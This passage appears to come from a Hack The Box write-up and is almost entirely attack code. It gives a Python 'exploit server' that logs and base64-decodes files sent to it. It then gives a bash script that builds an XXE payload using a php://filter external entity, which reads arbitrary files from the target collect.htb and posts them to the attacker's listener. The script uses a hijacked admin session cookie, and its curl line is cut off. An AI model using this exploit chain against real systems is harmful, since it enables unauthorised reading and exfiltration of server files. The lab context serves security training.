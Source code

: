 It might look something like this:
```python
import base64, json, sys
from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitServer(BaseHTTPRequestHandler):
  def save(self):
    try:
      length = int(self.headers.get('Content-Length'))
      body = json.loads(self.rfile.read(length))
      filename, content = body['username'], body['password']
      with open('exploit-server.log', 'a') as log_file:
          log_file.write(f'{filename}|{content}\n')
      return 200, base64.b64decode(content)
    except Exception:
      return 400, b''

  def do_POST(self):
    check = self.save()
    self.send_response(check[0])
    self.end_headers()
    self.wfile.write(check[1])

def main():
  if len(sys.argv) == 2:
    exploit_server = HTTPServer((sys.argv[1], 80), ExploitServer)
    try:
      print(f'Starting exploit server on http://{sys.argv[1]}/')
      exploit_server.serve_forever()
    except KeyboardInterrupt: pass
    finally:
      exploit_server.server_close()
  else:
    print('python3 exploit-server.py <LHOST>')

if __name__ == '__main__':
  main()
```
{:file="exploit-server.py"}

Then we create a quick bash script to easily read files:

```bash
#!/bin/bash

[ -z "$3" ] && echo './exploit.sh <session> <lhost> <file>' && exit 1
session="$1" # The value of PHPSESSID cookie (user must be admin)
lhost="$2"   # HTB VPN IP address
file="$3"    # File we want to read

xml=$(cat <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY a SYSTEM "php://filter/convert.base64-encode/resource=${file}">]>
<root>
  <method>POST</method>
  <uri>@${lhost}/</uri>
  <user>
    <username>${file}</username>
    <password>&a;</password>
  </user>
</root>
EOF
)
curl -s "http://collect.htb/api" -b "PHPSESSID=$session" \
  -H "Content-Type: application/x-www-form-urlencoded" \
```